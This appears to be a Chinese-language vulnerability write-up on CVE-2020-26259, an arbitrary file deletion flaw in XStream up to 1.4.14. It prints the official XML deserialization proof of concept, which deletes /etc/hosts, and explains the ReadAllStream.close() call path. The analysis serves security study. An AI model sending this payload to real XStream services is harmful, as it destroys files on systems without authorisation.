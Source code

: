 # CVE-2020-26259 任意文件删除
- [CVE-2020-26259 任意文件删除](#cve-2020-26259-任意文件删除)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [is.close](#isclose)
  - [参考](#参考)
## 影响版本
version<=1.4.14 未开启安全框架的xstream版本.
## 漏洞分析
该漏洞触发原理与CVE-2020-26217-远程代码执行相同,不同在于后续利用的点不同,这次利用的为`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`来任意文件删除.   
官方POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/etc/hosts</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
### is.close
该漏洞在调用`get()`方法时都之前相同,不同在于进入`get()`之后,之前利用的是`readFrom(is)`,这次利用的是`is.close()`.
![](2021-11-18-22-11-38.png)
此时的is为`ReadAllStream`,进入到`ReadAllStream.close`后判断`tempFile`不为空后直接调用了`delete()`删除了文件.
![](2021-11-18-22-13-44.png)

![](2021-11-18-22-16-54.png)
## 参考
https://x-stream.github.io/CVE-2020-26259.html